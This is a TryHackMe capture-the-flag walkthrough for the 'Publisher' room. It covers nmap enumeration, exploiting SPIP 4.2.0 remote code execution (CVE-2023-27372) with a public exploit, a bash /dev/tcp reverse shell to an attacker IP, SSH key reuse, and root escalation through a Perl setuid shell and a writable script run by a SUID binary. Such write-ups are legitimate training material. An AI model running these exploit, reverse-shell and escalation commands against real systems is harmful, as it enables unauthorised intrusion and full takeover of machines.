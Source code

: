 ```yaml
---
title: Publisher - TryHackMe Walkthrough
date: 2024-01-25 00:00:00 +0000
categories: [TryHackMe, Web Exploitation]
tags: [web, spip, rce, docker, privilege-escalation, tryhackme]
---
```


# Publisher - TryHackMe Walkthrough

![Publisher Room Banner](https://github.com/user-attachments/assets/9e1919d4-6a88-4bcf-9f67-1d28e61b7cac)

## Enumeration

### Nmap Scan
We start with a comprehensive nmap scan:
```bash
sudo nmap -sC -sV -T4 {target_IP}
```

The scan reveals two open ports:
- Port 22: OpenSSH 8.2p1 Ubuntu
- Port 80: Apache httpd 2.4.41

### Web Enumeration
The website appears to be a simple blog with no obvious functionality. Running a directory scan with feroxbuster reveals the `/spip` path.

![Publisher Homepage](https://github.com/user-attachments/assets/88eb3c30-693d-4126-a487-678a845fb8d0)

Using Wappalyzer, we identify that the site is running SPIP version 4.2.0.

![SPIP Version](https://github.com/user-attachments/assets/6d83eac2-5997-4116-8602-7605e1d5e8a6)

## Initial Access

Research reveals that SPIP 4.2.0 is vulnerable to Unauthenticated Remote Code Execution (CVE-2023-27372). We can exploit this using a publicly available exploit:

```bash
git clone https://github.com/Chocapikk/CVE-2023-27372.git
pip install -r requirements.txt
python CVE-2023-27372.py -u http://{target_IP}/spip/ -v -o report.txt
```

![RCE Success](https://github.com/user-attachments/assets/a949bd7d-2bf4-426c-a726-76072a9081f6)

### Getting a Reverse Shell
We establish a reverse shell using:
```bash
bash -c "bash -i >& /dev/tcp/{attacker_IP}/9001 0>&1"
```

![Reverse Shell](https://github.com/user-attachments/assets/a563c167-31f6-4adb-b566-cd989a0879bf)

## Lateral Movement

We discover we're in a Docker container. Manual enumeration reveals an SSH private key in the think user's home directory:

![SSH Key](https://github.com/user-attachments/assets/c2dff48d-d254-48d7-9610-408a223b381d)

We can use this key to gain SSH access as the think user:
```bash
ssh -i id_rsa think@{target_IP}
```

## Privilege Escalation

### Method 1: AppArmor Bypass
We discover AppArmor is running, which restricts file operations. After analyzing the AppArmor rules, we find we can write to `/dev/shm`:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
./test.pl
```

### Method 2: SUID Binary Exploitation
We find a SUID binary `/usr/sbin/run_container` that executes `/opt/run_container.sh`. Since we have write permissions to this script, we can modify it to add SUID to `/bin/bash`:

```bash
echo 'chmod +s /bin/bash' > /opt/run_container.sh
/usr/sbin/run_container
/bin/bash -p
```

![Root Access](https://github.com/user-attachments/assets/53ae8c26-a233-4010-bebe-2637fbf6ff54)

## Alternative Method
From the www-data shell, we can:
1. Copy `/bin/bash` to `/home/think/spip`
2. Set SUID bit
3. Make it readable by everyone
4. Execute it from the SSH session

## Conclusion
This machine demonstrates several important security concepts:
- Web application vulnerabilities (SPIP RCE)
- Docker container escape
- AppArmor bypass techniques
- SUID binary exploitation
- Multiple privilege escalation paths

Remember: Always look for multiple ways to achieve your goal, as there might be more than one path to success. 